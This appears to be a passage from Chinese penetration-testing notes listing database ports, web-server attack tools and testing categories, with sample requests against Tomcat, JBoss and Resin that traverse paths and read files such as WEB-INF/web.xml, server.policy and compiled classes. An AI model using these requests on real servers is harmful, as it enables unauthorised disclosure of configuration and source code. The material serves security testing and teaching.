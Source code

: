  MS Sql Server（1433、1434端口）   Mysql（3306端口）   DB2（523、50000、50001、50002、50003端口） 

db2utils Informix（1526、1528端口）  

在针对Web服务器方面的工具有：

WEB服务器 工具列表IIS IISPUTSCANNER

 Tomcat 想起/admin和/manager管理目录了吗？另外，目录列表也是Tomcat服务器中最常见的问题。比如5.*版本中的http://127.0.0.1/;index.jsp

http://www.example.com/foo/"../manager/html 

http://www.example.com:8080/examples/servlets/servlet/CookieExample?cookiename=HAHA&cookievalue=%5C%22FOO%3B+Expires%3DThu%2C+1+Jan+2009+00%3A00%3A01+UTC%3B+Path%3D%2F%3B

http://www.example.com:8080/servlets-examples/servlet/CookieExample?cookiename=BLOCKER&cookievalue=%5C%22A%3D%27%3B+Expires%3DThu%2C+1+Jan+2009+00%3A00%3A01+UTC%3B+Path%3D%2Fservlets-examples%2Fservlet+%3B JBOSS jboss的漏洞很少，老版本中8083端口有%符号的漏洞：

GET %. HTTP/1.0可以获取物理路径信息，

GET %server.policy HTTP/1.0可以获取安全策略配置文档。

你也可以直接访问GET %org/xxx/lib.class来获取编译好的java程序，再使用一些反编译工具还原源代码。 Apache   Resin http://victim/C:%5C/

http://victim/resin-doc/viewfile/?file=index.jsp

http://victim/resin-doc/viewfile/?contextpath=/otherwebapp&servletpath=&file=WEB-INF/web.xml

http://victim/resin-doc/viewfile/?contextpath=/&servletpath=&file=WEB-INF/classes/com/webapp/app/target.class

http://victim/[path]/[device].[extension]

http://victim/%20.."web-inf

http://victim/%20

http://victim/[path]/%20.xtp WebLogic  

Web安全测试主要围绕几块进行：

- Information Gathering：也就是一般的信息泄漏，包括异常情况下的路径泄漏、文件归档查找等
- Business logic testing：业务逻辑处理攻击，很多情况下用于进行业务绕过或者欺骗等等
- Authentication Testing：有无验证码、有无次数限制等，总之就是看能不能暴力破解或者说容不容易通过认证，比较直接的就是“默认口令”或者弱口令了
- Session Management Testing：会话管理攻击在COOKIE携带认证信息时最有效
- Data Validation Testing：数据验证最好理解了，就是SQL Injection和Cross Site Script等等

目前网上能够找到许多能够用于进行Web测试的工具，根据不同的功能分主要有：

1. 枚举（Enumeration）： DirBuster, http-dir-enum, wget
2. 基于代理测试类工具：paros, webscarab, Burp Suite

针对WebService测试的部分有一些尚不是很成熟的工具，如：[wsbang](http://www.isecpartners.com/wsbang.html)，[wschess](http://net-square.com/wschess/index.shtml)，[wsmap](http://www.isecpartners.com/wsmap.html)，[wsdigger](http://www.foundstone.com/us/resources/proddesc/wsdigger.htm)，[wsfuzzer](http://www.neurofuzz.com/modules/software/wsfuzzer.php)

这一部分值得一提的是，很多渗透测试团队都有着自己的测试工具甚至是0DAY代码，最常见的是SQL注入工具，现网开发的注入工具（如NBSI等）目前都是针对中小企业或者是个人站点/数据库进行的，针对大型目标系统使用的一些相对比较偏门的数据库系统（如INFORMIX，DB2）等，基本上还不涉及或者说还不够深入。这时各渗透测试团队就开发了满足自身使用习惯的测试工具。

在针对无线环境的攻击有：[WifiZoo](http://community.corest.com/~hochoa/wifizoo/index.html)
